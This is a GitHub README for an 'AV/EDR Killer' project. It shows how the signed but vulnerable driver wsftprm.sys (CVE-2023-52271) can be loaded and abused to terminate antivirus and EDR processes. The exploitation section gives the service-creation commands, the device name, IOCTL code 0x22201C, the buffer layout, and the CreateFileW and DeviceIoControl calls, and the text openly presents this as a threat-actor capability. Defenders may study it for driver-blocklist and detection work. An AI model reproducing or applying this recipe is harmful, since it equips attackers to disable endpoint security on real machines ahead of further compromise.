

# AV/EDR Killer 




https://github.com/user-attachments/assets/1eda3340-2af2-4136-b74e-be7a3f4b3924


This project demonstartes how a legit, and signed driver can be weponized to gain kernel level access.
https://github.com/xM0kht4r/AV-EDR-Killer/tree/main Original in Rust code


## 🚨 The vulnerable driver:

`wsftprm.sys` , signed by TPZ SOLUCOES DIGITAIS LTDA, and previously exposed to a local privilege escalation vulnerabliy publicly disclosed as `CVE-2023-52271`, but somehow still NOT on Microsoft's driver blocklist!! 🤫🤫

The vulnerability is triggered via IOCTL code 0x22201C with a 1036-byte buffer where the first 4 bytes contain the target Process ID as a DWORD. The vulnerable driver, upon receiving this malicious IOCTL through DeviceIoControl, it invokes the imported ZwTerminateProcess function, granting any user-mode application kernel-level process termination capabilities.

Any sane threat actor will naturally prioritize this capability to terminate critical Antivirus (AV) and Endpoint Detection and Response (EDR) processes.


## ⚡ Exploitation:

### 1. Register a service:
Launch cmd.exe with Administrator privileges, and register a kernel driver service with type "kernel" and binPath pointing to the vulnerable driver's location.
```
> sc create MalDriver binPath= <path> type= Kernel`
> sc start MalDriver

```

Once loaded, the driver creates a symbolic link for user-mode accessible as \\.\Warsaw_PM. Which we can use to get a handle to the driver device using the CreateFileW API call.

```
> CreateFileW(device_name.as_ptr(), GENERIC_READ | GENERIC_WRITE, 0, ptr::null_mut(), OPEN_EXISTING, 0, ptr::null_mut())
```

To send the Malicious IOCTLs we will use DeviceIoControl with code 0x22201C, and buffer containing a PID in its first 4 bytes
```
> DeviceIoControl(self.hDriver, 0x22201C, buffer.as_mut_ptr() as LPVOID, buffer.len() as u32, ptr::null_mut(), 0, &mut bytes_returned, ptr::null_mut())
```
